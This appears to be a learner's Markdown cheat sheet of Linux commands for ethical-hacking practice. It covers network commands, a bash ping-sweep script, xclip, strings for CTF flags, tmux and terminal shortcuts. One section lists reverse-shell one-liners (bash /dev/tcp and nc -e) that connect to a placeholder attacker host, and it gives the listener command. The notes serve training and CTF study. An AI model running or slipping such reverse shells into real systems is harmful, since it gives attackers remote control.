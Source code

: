 # Useful commands and tools on Linux

## Network commands

- `ifconfig`
- `ip a`
- `iwconfig` wireless connection
- `arp -a`
- `ip n`
- `ip r` 
- `route` get the routing table
- `ping IP-ADD-OR-HOST` check if a host is up
- `netstat` 

### Pingsweep in bash

- On his course Practical Ethical Hacking Heath Adams shares this script that is really convenient to make an ip sweep.
```bash
#!/bin/bash
if [ "$1" == "" ]
then
echo "You forgot an IP address!"
echo "Syntax: ./ipsweep.sh 192.168.1"

else
for ip in `seq 1 254`; do
ping -c 1 $1.$ip | grep "64 bytes" | cut -d " " -f 4 | tr -d ":" &
done
fi
```

## xclip

### Install

- `sudo apt install xclip`

### Use

xclip is a tool that can allow you to get any output in you clipboard.  
Let's say you have a big input to copy and do not want to mess up with the mouse, you can use xclip.
- `cat myverybigfile | xclip -sel clipboard` will send the content of myverybigfile to the clipboard

## Strings

Strings will print human readable chars of a file. And for a CTF if we are looking for a specific string we can pipe it to grep
- `strings -e l file | grep -i FLAG` the `-e l` will select the encoding l is for 16-bit littleendian
- `strings file` is the basic use of the command

## TMUX

"tmux is a terminal multiplexer. It lets you switch easily between several programs in one terminal, detach them (they keep running in the background) and reattach them to a different terminal." Learn more about [tmux](https://github.com/tmux/tmux/wiki).

- `tmux new -s sessionName` create an join a new session
- `ctrl+b d` detach a session
- `tmux ls` list existing sessions
- `ctrl+b x` kill current session
- `tmux a -t sessionName` or `tmux a -t sessionId` join an existing session
- `tmux  ctrl+b pageup` to scroll and `q` to leave scroll mode

## Which architecture

- `lscpu` will tell you if you are 32 or 64
- `uname -m` similar but less verbose

## Useful shortcuts to use the terminal quickly

- `Ctrl+U` - clear all the current line from the end to the beginning only if the cursor is at the end of the line.
- `Ctrl+Y` - recall the cleared line 
- `Ctrl+K` - clear all the current line from the beginning to the end only if the cursor is at the beginning of the line.
- `Ctrl+W` - clear the previous word in the current line. For example if you have typed a command like `git diff /path/to/some/file` and you want to delete just the last parameter to the command, Ctrl+W is very useful.
- `Ctrl+E Ctrl+U` - move the cursor to the end of the line and clear all the current line from the end to the beginning.
- `Ctrl+A Ctrl+K` - move the cursor at the beginning of the line and clear all the current line from the beginning to the end.
- `Ctrl+C` - cancel the current command line, which implies clear all the current line no matter where the cursor is. (you can't recall the cleared line anymore).
- `Alt+Shift+#` - comment the current line, keep it in the history and bring up your prompt on a new line.
- `Ctrl+Shit+C` - copy something you previously selected
- `Ctrl+Shit+V` - paste something
- `Home` - Go to the begining of your prompt 
- `End` - Go to the end of your prompt

## Launch shells from a terminal

- Say we have a way through root and we need to get a reverse shell here are helpfuls command
  - `/bin/bash -i >& /dev/tcp/IP-OF-YOUR-KALI/4444 0>&1`
  - `nc IP-OF-YOUR-KALI 4444 –e /bin/bash`
  - `nc IP-OF-YOUR-KALI 4444 –e /bin/sh`
- *Note: We have to set a listener prior to this with `rlwrap nc -lvp 4444`*

## Permissions cheat sheet

![image](https://user-images.githubusercontent.com/96747355/175057144-3baa417c-db0b-4709-af0d-eb370d222c39.png)  
Source: [Chmod tutorial by Ryan Morrison](https://medium.com/@razl/chmod-tutorial-ce4386a3ce0c)

## Explainshell.com

- [This website](https://explainshell.com/) is relly helpful to understand what a specific linux command does. Here is an example with `rm -rf file`  
![image](https://user-images.githubusercontent.com/96747355/175054655-9a49193f-38a3-4cc7-92dc-e1d6f716aaab.png)

## Resources

{% embed url="https://askubuntu.com/questions/470966/shortcut-to-clear-command-line-terminal" %} Shortcut to clear command line terminal {% endembed %}
